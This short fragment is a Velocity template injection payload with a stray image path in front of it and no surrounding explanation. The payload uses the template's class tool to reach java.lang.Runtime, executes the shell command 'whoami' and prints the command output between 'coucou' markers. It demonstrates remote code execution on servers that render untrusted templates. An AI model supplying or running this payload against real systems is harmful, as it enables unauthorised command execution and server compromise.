 #set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
coucou
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
coucou
